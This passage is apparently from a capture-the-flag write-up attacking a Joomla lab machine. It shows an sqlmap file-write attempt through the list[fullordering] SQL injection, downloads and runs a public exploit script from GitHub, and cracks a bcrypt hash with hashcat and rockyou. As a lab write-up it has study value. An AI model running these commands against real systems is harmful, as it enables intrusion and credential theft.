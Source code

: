 We now have a username jjameson with the name 'Jonah Jameson'.

```
touch upload/test
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p list[fullordering] --random-agent --file-write=test --file-dest=/var/www/html
curl "http://10.10.122.150/test"
```

Not working.

Googling for the CVE number, [this](https://github.com/stefanlucas/Exploit-Joomla) comes up.
```
curl "https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py" > joombla.py
chmod u+x
./joombla.py http://10.10.122.150/
```

![joombla](assets/markdown-img-paste-20210830065923524.png)

```
hashid creds/joomblahash
hashcat -a 0 -m 3200 creds/joomblahash sl/Passwords/Leaked-Databases/rockyou.txt
```
Googling for which mode to use:

![joomblatypeawnser](assets/markdown-img-paste-2021083007140175.png)
